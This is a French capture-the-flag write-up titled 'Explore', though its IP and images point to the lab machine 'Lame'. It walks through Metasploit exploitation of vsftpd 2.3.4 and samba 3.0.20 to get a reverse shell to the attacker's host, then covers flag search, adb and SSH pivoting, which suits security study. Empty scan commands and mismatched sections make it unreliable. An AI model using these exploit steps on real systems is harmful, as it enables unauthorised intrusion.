 # Explore - Easy

### Objectif :

    Se connecter à la machine et trouver les flags de user.txt et root.txt

### Information :

Addresse IP : \*\* \*\*

### Process :

##### Récolte d'information :

###### Scan du réseau :

```bash
# premier scan
nmap
# deuxième scan
nmap

```

- -
  -
  -
  -

###### résultat du premier scan

!["Étapes d'un pentest"](../../Ressources/IMG/HTB/Machines/Lame/Machine-Lame-01.png)

###### résultats du deuxième scan

###### Détection des vulnérabilités :

Nous utiliserons métasploit pour détecter et exploiter les vulnérabilités

**Accès à métasploit**

```bash
msfconsole
```

###### Recherche de la vulnérabilité

```bash
# dans la console de metasploit
 search vsftpd 2.3.4
 use 0
 setg RHOSTS 10.10.10.3
 exploit
```

###### Exploitation de la vulnérabilité

##### vulnérabilité 1 : vsftpd 2.3.4

!["Étapes d'un pentest"](../../Ressources/IMG/HTB/Machines/Lame/Machine-Lame-6.png)

Étant donné que le premier ne marche pas, on va essayer de chercher d'autres vulnérabilités : essayons l'os découvert grâce au scan nmap : **samba 3.0.20**

##### vulnérabilité 2 : samba 3.0.20

```bash
# dans la console de metasploit
 search samba 3.0.20
 use 0
 setg RHOSTS 10.10.10.3
 setg LHOST <Mon addresse IP>
 exploit
```

!["Étapes d'un pentest"](../../Ressources/IMG/HTB/Machines/Lame/Machine-Lame-04.png)

!["Étapes d'un pentest"](../../Ressources/IMG/HTB/Machines/Lame/Machine-Lame-05.png)
Nous avons donc accès à la console de la cible

###### Recherche des fichier avec

```bash
# cette commande nous donne les répertoires dans lesquelles se trouves les fichiers qu'on recherche
find / -name "nom_du_fichier" 2>/dev/null
```

!["Étapes d'un pentest"](../../Ressources/IMG/HTB/Machines/Lame/Machine-Lame-07.png)

### Ce que j'ai Appris :

- utilisation de adb pour les androids :

```bash
adb shell :  pour avoir accès au shell de adb
adb devices : lister tous les appareils
adb <device_name> disconnect
adb root / unroot : passer en root ou pas
```

- Tunnel pivoting avec ssh :

```bash
ssh -L [MonPort]:IPAdresstoconnect:[MachinePort I Want to Bind] IPAdresstoconnect -p [ normal port to connect]
```

- Approfondissement metasploit :

```bash
show actions
set action <nom de l'action ou numero>
```
